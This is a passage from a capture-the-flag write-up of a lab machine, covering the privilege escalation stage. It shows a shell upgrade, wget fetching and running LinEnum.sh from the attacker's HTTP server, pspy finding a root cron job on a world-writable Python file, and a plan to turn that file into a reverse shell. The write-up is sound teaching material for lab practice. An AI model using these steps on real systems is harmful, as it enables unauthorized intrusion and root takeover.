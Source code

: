 ```
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Now we need to escalate privileges.

# Privilege Escalation

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```
python -m SimpleHTTPServer 5555
```

In the target machine, move to the /tmp directory where we have write privileges and download the LinEnum script.

```
cd /tmp
wget [http://10.10.14.12:5555/LinEnum.sh](http://10.10.14.6:5555/LinEnum.sh)
```

Give it execute privileges.

```
chmod +x LinEnum.sh
```

Run the script.

```
./LinEnum.sh
```

We don’t get anything useful. Next, let’s try pspy. If you don’t have the script, you can download it from the following github repository.

```
[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
```

We know that the system is a 32 bit system so make sure you run pspy32. Upload it and run it on the attack machine in the same way we did for LinEnum.

After a minute we see an interesting process pop up.

![](../img/Solidstate Writeup wo Metasploit/1_Xz8gUedVbeUPuZEP-wmVHg.png)

If you view the permissions on the /opt/tmp.py file, you’ll see that everyone has read/write/execute privileges on it.

![](../img/Solidstate Writeup wo Metasploit/1_DIhulL7pCEZPfrsVwUe24w.png)

Therefore all we need to do is change the content of the file to send a reverse shell to our attack machine and then we simply wait for the cron job to send a privileged shell back.

